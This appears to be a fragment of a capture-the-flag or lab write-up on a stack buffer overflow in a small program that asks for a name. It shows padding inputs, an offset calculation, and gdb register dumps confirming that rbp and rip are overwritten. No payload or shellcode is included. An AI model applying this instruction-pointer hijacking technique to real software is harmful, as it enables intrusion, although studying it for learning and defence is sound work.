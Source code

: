 
So that's at 13 it's completely overwritten
32 + 13 = 45

So that `rip` holds 5 characterse
```
Hey! What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCC
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000004343434343 in ?? ()
(gdb) info registers
rax            0x0                 0
rbx            0x7fffffffdf08      140737488346888
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffdc20      140737488346144
rdi            0x7fffffffdbf0      140737488346096
rbp            0x4242424242424242  0x4242424242424242
rsp            0x7fffffffde00      0x7fffffffde00
r8             0x73                115
r9             0x1                 1
r10            0x0                 0
r11            0x202               514
r12            0x0                 0
r13            0x7fffffffdf18      140737488346904
r14            0x0                 0
r15            0x7ffff7ffd000      140737354125312
rip            0x4343434343        0x4343434343
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0

(gdb) x/20x $sp
0x7fffffffde00: 0x00000000      0x00000000      0x004006d6      0x00000000
0x7fffffffde10: 0x00000000      0x00000001      0xffffdf08      0x00007fff
0x7fffffffde20: 0xffffdf08      0x00007fff      0x3b94c459      0xe39bdd1b
0x7fffffffde30: 0x00000000      0x00000000      0xffffdf18      0x00007fff
0x7fffffffde40: 0x00000000      0x00000000      0xf7ffd000      0x00007fff
(gdb) 

```


AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCDEFG
```
Program received signal SIGSEGV, Segmentation fault.
0x0000004746454443 in ?? ()
(gdb) info registers
rax            0x0                 0
rbx            0x7fffffffdf08      140737488346888
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffdc20      140737488346144
rdi            0x7fffffffdbf0      140737488346096
rbp            0x4242424242424242  0x4242424242424242
rsp            0x7fffffffde00      0x7fffffffde00
r8             0x73                115
r9             0x1                 1
r10            0x0                 0
r11            0x202               514
```